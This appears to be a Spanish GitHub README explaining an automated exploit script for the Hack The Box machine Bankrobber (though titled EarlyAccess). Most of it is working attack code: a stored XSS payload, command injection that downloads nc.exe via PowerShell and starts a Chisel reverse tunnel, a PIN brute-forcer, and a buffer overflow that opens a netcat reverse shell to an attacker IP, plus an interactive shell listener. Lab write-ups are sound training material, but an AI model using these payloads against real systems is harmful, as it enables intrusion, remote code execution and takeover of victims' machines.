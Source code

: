 # Autopwn - EarlyAccess

En caso de no haber realizado la máquina Bankrobber, es recomendable revisar el [writeup](https://mrpr1ngl3s.github.io/htb/Bankrobber) para comprender el autopwn.

<p align="center">
	<img src="Img/Autopwn-Bankrobber.png"
		alt="autopwn"
	style="float: left; margin-right: 10px;" />
</p>

# Funcionamiento

El primer paso que realiza el script es en la creación del archivo, el cual primero descargara el binario **nc.exe** y luego ejecuta el **Chisel** como cliente.

```python3
content = f"""var request = new XMLHttpRequest();
var pwn = 'cmd=dir|powershell -c "iwr http://{MyIP}/nc.exe -outfile %temp%\\\\nc.exe" |start \\\\\\\\{MyIP}\\\\pwn\\\\chisel.exe client {MyIP}:8080 R:910:127.0.0.1:910';
request.open("POST", "http://localhost/admin/backdoorchecker.php", true);
request.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
request.send(pwn);
"""

with open('pwn.js', 'w') as file:
	file.write(content)
```
Despues, crea y ejecuta los servidores **HTTP** y **SMB**, junto con **Chisel**, en segundo plano.
```python3

http_server = subprocess.Popen(["python3","-m","http.server","80"],stdout=subprocess.PIPE,stderr=subprocess.PIPE, text=True)

chisel_server = subprocess.Popen(["./chisel","server","-p","8080", "--reverse"],stdout=subprocess.DEVNULL,stderr=subprocess.DEVNULL)


def smb_server():
    server = SimpleSMBServer()
    server.addShare("pwn", ".")
    server.setSMB2Support(True)
    server.start()

threading.Thread(target=smb_server, daemon=True).start()
```

Mientras, la función **register** crea el usuario que enviará el **XSS** al usuario admin, y la función  **login** obtiene el **ID** de dicho usuario para poder enviar el mensaje.

````python3
def register():

	url_register = main_url + "/register.php"

	data  = {
		"username": username,
		"password": password,
		"pounds": "Submit+Query"
	}

	r = requests.post(url_register, data=data)

	ID = login()

	return ID

def login():
	url_login = main_url + "/login.php"

	data  = {
		"username": username,
		"password": password,
		"pounds": "Submit+Query"
	}

	r = s.post(url_login, data=data)

	ID = s.cookies.get_dict()["id"]

	return ID




```
Con el **ID** ya obtenido, la función **Send_XSS** envía el mensaje y monitorea el servidor **HTTP** en espera de una petición **GET**. Para garantizar su persistencia, el mensaje se reenvía cada minuto en caso de que sea eliminado. Una vez que la petición es recibida, el proceso vuelve a esperar hasta que el puerto **910** es abierto.

```python3
def Send_XSS(ID):

	url_shell = main_url + "/user/transfer.php"

	headers= {
	"Content-Type": "application/x-www-form-urlencoded"
	}

	data = {
		"fromId": ID,
		"toId": "1",
		"amount": "1",
		"comment": "<script src='http://%s/pwn.js'></script>" % MyIP
	}

	threading.Thread(target=logs_get, daemon=True).start()

	r = s.post(url_shell, data=data, headers=headers)


	while "GET" not in line:
		r = s.post(url_shell, data=data, headers=headers)
		time.sleep(60)

	while True:
		if check_port("0.0.0.0", 910):
			threading.Thread(target=brutef_buffer, daemon=True).start()
			break

def check_port(host, port):
	with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as sock:
			sock.settimeout(1)
			result = sock.connect_ex((host, port))
			return result == 0


def logs_get():
	global line
	line = http_server.stderr.readline().strip()
	print(line)

```

Tras la apertura del puerto **910** comienza el ataque de fuerza bruta en segundo plano, mientras por otro lado, es puesto en escucha, para recibir la shell como el usuario admin.

```python3

def brutef_buffer():

	buffer = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAC:\\Users\\Cortin\\AppData\\Local\\Temp\\nc.exe 10.10.14.13 444 -e cmd.exe"

	for pin in range(10000):

		pin = str(pin).zfill(4)

		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		s.connect(("127.0.0.1", 910))

		data = s.recv(1024)

		s.send(pin.encode() + b'\n')

		data = s.recv(1024)

		if "Access denied" not in data.decode():
			print(pin)
			s.send(buffer.encode() + b'\n')
			s.close()
			break

		time.sleep(2)

def receive_all(conn):
	# Recibe datos en un bucle hasta que no haya más.
	data = b""
	conn.settimeout(2)  # Tiempo de espera breve para evitar bloqueos
	try:
		while True:
			chunk = conn.recv(4096)
			if not chunk:
				break
			data += chunk
	except socket.timeout:
		pass  # El timeout indica que no hay más datos por recibir
	return data.decode("ISO-8859-1", errors="ignore") # Devuelve los datos decodificados en ISO-8859-1, ignorando errores en la conversión



def R_Shell():

	HOST = "0.0.0.0"
	PORT = 444

	server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	server.bind((HOST, PORT))
	server.listen(5)  # Permite múltiples conexiones

	cont = 0


	while True:
		conn, addr = server.accept()

		while True:
			if cont == 0:
				conn.send("taskkill /IM chisel.exe /F".encode() + b"\n")

			time.sleep(1)
			command = input("$ ")
			if command.lower() == "exit":
				conn.send(b"exit")
				conn.close()
				break
			conn.send(command.encode() + b"\n")
			result = receive_all(conn)
			print(result)
			cont = 1

```
